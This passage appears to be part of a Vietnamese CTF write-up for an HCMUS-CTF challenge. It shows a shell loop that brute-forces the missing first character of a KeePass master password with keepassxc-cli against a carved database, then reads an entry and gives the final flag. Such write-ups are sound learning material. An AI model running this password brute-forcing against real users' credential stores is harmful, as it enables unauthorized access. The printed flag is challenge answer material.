Password còn lại là `??ww_geez_i_sure_hope_nobody_find_this_super_secret_password` — chỉ thiếu 1 ký tự đầu. Brute-force 1 ký tự (26 chữ thường + số + ký tự đặc biệt) là tức thì. Thử lần lượt với `keepassxc-cli`.

```python
for c in a b c d e f g h i j k l m n o p q r s t u v w x y z 0 1 2 3 4 5 6 7 8 9; do
    echo "${c}ww_geez_i_sure_hope_nobody_find_this_super_secret_password" | \
    keepassxc-cli ls carved_2_a095e000.kdbx 2>/dev/null && \
    echo "[+] Found: ${c}ww_geez..." && break
done
```


Kho ga free????? 

Master password: `aww_geez_i_sure_hope_nobody_find_this_super_secret_password`

Đọc entry CTF:

```python
echo "aww_geez_i_sure_hope_nobody_find_this_super_secret_password" | \
keepassxc-cli show -s carved_2_a095e000.kdbx "CTF"
```


**Result: `d_call_it_a_challenge_to_meet_kpi}`**

---

Flag:

```
HCMUS-CTF{d0nt_m1nd_me_just_doing_random_stuff_on_window_4nd_call_it_a_challenge_to_meet_kpi}
```